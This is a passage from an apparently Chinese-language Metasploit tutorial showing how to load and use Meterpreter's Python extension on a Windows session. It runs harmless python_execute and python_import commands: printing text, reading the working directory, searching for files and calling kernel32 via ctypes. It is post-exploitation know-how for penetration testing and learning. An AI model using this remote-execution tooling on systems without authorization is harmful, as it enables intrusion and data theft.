meterpreter > load python
Loading extension python...success.
```

```
meterpreter > help
...
Python Commands
===============

    Command         Description
    -------         -----------
    python_execute  Execute a python command string
    python_import   Import/run a python file or module
    python_reset    Resets/restarts the Python interpreter
```
```python_execute``` 命令用于执行一个python 命令。
```
meterpreter > python_execute "print 'Good morning! It\\'s 5am'"
[+] Content written to stdout:
Good morning! It's 5am
```

```
meterpreter > python_execute "import os; cd = os.getcwd()" -r cd
[+] cd = C:\Users\loneferret\Downloads
meterpreter >
```

```python_import``` 命令用于引入一个python文件

```
meterpreter > python_import -f /root/findfiles.py
[*] Importing /root/findfiles.py ...
[+] Content written to stdout:
c://Program Files\Ext2Fsd\Documents\readme.txt
c://qemu-0.13.0-windows\patch\readme.txt
c://Users\loneferret\Desktop\IM-v1.9.16.0\readme.txt
```

```
meterpreter > python_import -f /root/ctypes_ex.py
[*] Importing /root/ctypes_ex.py ...
[+] Content written to stdout:
>WinDLL 'kernel32', handle 76e30000 at 4085e50>
```


```
metrepreter > python_import -f /root/msgbox.py
[*] Importing /root/msgbox.py ...
[+] Command executed without returning a result
```
